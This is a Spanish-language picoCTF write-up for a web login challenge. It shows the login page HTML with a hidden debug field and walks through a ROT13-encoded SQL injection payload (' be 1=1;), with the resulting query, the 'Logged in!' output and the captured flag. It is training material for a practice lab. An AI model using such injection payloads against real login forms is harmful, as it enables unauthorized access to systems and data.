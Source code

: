 ## Objetivo
There is a secure website running at `https://jupiter.challenges.picoctf.org/problem/29132/` ([link](https://jupiter.challenges.picoctf.org/problem/29132/)) or http://jupiter.challenges.picoctf.org:29132. 
Try to see if you can login as admin!
## Solución
- ##### Se analiza el código fuente de la página, se observa que hay un form únicamente para password. Se cambia el valor de "hidden" a 1, para hacer que ya no esté oculto.
``` html
<!doctype html>
<html>
<head>
    <title>Login</title>
    <link rel="stylesheet" type="text/css" href="//maxcdn.bootstrapcdn.com/bootstrap/3.3.5/css/bootstrap.min.css">
</head>
<body>
<div class="container">
    <div class="row">
        <div class="col-md-12">
            <div class="panel panel-primary" style="margin-top:50px">
                <div class="panel-heading">
                    <h3 class="panel-title">Admin Log In</h3>
                </div>
                <div class="panel-body">
                    <form action="login.php" method="POST">
                        <fieldset>
                            <div class="form-group">
                                
                                <label for="password">Password:</label>
                                <div class="controls">
                                    <input type="password" id="password" name="password" class="form-control">
                                </div>
                            </div>
                            <input type="hidden" name="debug" value="0">

                            <div class="form-actions">
                                <input type="submit" value="Login" class="btn btn-primary">
                            </div>
                        </fieldset>
                    </form>
                </div>
            </div>
        </div>
    </div>
</div>
</body>
</html>

```

- ##### Al tratar de iniciar sesión con la inyección SQL, no podemos iniciar, pero el valor "hidden" nos muestra nuevamente la consulta que se hace una base de datos. Esta consulta está encriptada, por lo que resulta difícil realizar una inyección SQL. Trataremos de realizar la inyección SQL encriptando a la inversa para obtener la bandera.
```
CONSULTA SQL NORMAL (encriptada)
password: ' OR 1=1;
SQL query: SELECT * FROM admin where password = '' BE 1=1;'

CIFRADO ROT13
Normal: ' or 1=1;
Encriptado: ' be 1=1;

CONSULTA SQL INYECTADA
password: ' be 1=1;
SQL query: SELECT * FROM admin where password = '' or 1=1;'

Logged in!

Your flag is: picoCTF{3v3n_m0r3_SQL_06a9db19}
```
## Notas Adicionales
- SQL injection is a code injection technique that might destroy your database, is one of the most common web hacking techniques and is the placement of malicious code in SQL statements, via web page input.
- ROT13 es un sencillo cifrado César utilizado para ocultar un texto sustituyendo cada letra por la letra que está trece posiciones por delante en el alfabeto. A se convierte en N, B se convierte en O y así hasta la M, que se convierte en Z. Luego la secuencia se invierte: N se convierte en A, O se convierte en B y así hasta la Z, que se convierte en M.
## Referencias
- [PicoCTF](https://play.picoctf.org)
- [PicoCTF Writeups](https://www.youtube.com/playlist?list=PLDo9DMLZyP6kTZ8Td37-LdbAx4-yNfHBl&authuser=0)
- [CyberChef ROT13](https://gchq.github.io/CyberChef/#recipe=ROT13(true,true,false,13)&input=JyBvciAxPTE)